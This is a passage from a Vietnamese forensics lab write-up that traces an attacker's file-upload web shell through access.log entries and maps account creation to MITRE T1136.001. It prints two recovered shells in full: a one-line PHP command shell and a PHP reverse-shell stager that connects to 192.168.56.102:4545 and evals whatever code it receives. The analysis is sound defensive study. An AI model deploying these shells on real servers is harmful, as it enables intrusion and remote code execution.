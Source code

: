 ##### Tìm kiếm trên internet với từ khóa "net user add MITRE ID" ta tìm thấy nguồn sau:
- https://attack.mitre.org/techniques/T1136/
##### Dựa vào đó ta có thể xác định được MITRE ID là T1136.001

### 15. The attacker uploaded a simple command shell through file upload vulnerability. Provide the name of the URL parameter used to execute commands?

![image](https://hackmd.io/_uploads/B1pWz9991l.png)
##### Dựa vào các IOC trên, mình tìm kiếm các phần mở rộng này từ file access.log.
> strings access.log| grep -iE "\.php|\.asp|\.jsp|\.exe" 
![image](https://hackmd.io/_uploads/rJprP9991g.png)
##### Ta thấy rằng attacker đang cố gắng khai thác thông qua tệp shell phpshell.php ở thư mục uploads và tham số `cmd=`
##### Cuối cùng là chạy file phpshell2.php thông qua GET, xem thông tin chi tiết qua bảng sau:
| **Thời gian**                                | **Yêu cầu**                                                                  | **Mục đích**                                                                                                   |
|---------------------------------------------|-------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| [03/Sep/2015:00:15:58 -0700]               | GET /dvwa/hackable/uploads/phpshell.php HTTP/1.1                              | Truy cập trang PHP shell để thực thi mã PHP.                                                                   |
| [03/Sep/2015:00:16:03 -0700]               | GET /dvwa/hackable/uploads/phpshell.php?dir HTTP/1.1                          | Kiểm tra nội dung thư mục trong PHP shell.                                                                     |
| [03/Sep/2015:00:16:13 -0700]               | GET /dvwa/hackable/uploads/phpshell.php?cmd=dir HTTP/1.1                      | Thực thi lệnh `dir` trong PHP shell để liệt kê các thư mục và tập tin.                                         |
| [03/Sep/2015:00:17:49 -0700]               | GET /dvwa/hackable/uploads/phpshell.php?cmd=dir%20C:\\ HTTP/1.1               | Thực thi lệnh `dir` trên ổ đĩa C:\ để xem danh sách thư mục và tập tin trên hệ thống Windows.               |
| [03/Sep/2015:00:17:58 -0700]               | GET /dvwa/hackable/uploads/phpshell.php?cmd=mkdir%20abc HTTP/1.1              | Tạo thư mục mới tên là `abc` trong hệ thống.                                                                  |
| [03/Sep/2015:00:18:02 -0700]               | GET /dvwa/hackable/uploads/phpshell.php?cmd=dir HTTP/1.1                      | Kiểm tra lại nội dung thư mục sau khi thực hiện lệnh tạo thư mục.                                            |
| [03/Sep/2015:00:18:58 -0700]               | GET /dvwa/hackable/uploads/phpshell.php HTTP/1.1                              | Truy cập lại trang PHP shell.                                                                                 |
| [03/Sep/2015:00:31:54 -0700]               | GET /dvwa/hackable/uploads/phpshell2.php HTTP/1.1                             | Truy cập một tệp PHP shell khác để thực thi các lệnh hoặc kiểm tra thông tin.                                |
##### Truy cập vào `xampp/htdocs/DVWA/hackable/uploads/` để xem nội dung file shell
##### Đây là nội dung file phpshell.php
```php
<?php
system($_GET["cmd"]);

?>
```
##### Đoạn mã php này nhận lệnh từ tham số cmd= sau đó thực thi trên hệ thống 
##### Đây là nội dung file phpshell2.php
```php
//<?php error_reporting(0); $ip = '192.168.56.102'; $port = 4545; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } elseif (($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } elseif (($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } else { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; eval($b); die();
```
##### Đoạn mã này tiến hành thiết lập kết nối và thực thi các mã nhận từ server 192.168.56.102 ở cổng 4545
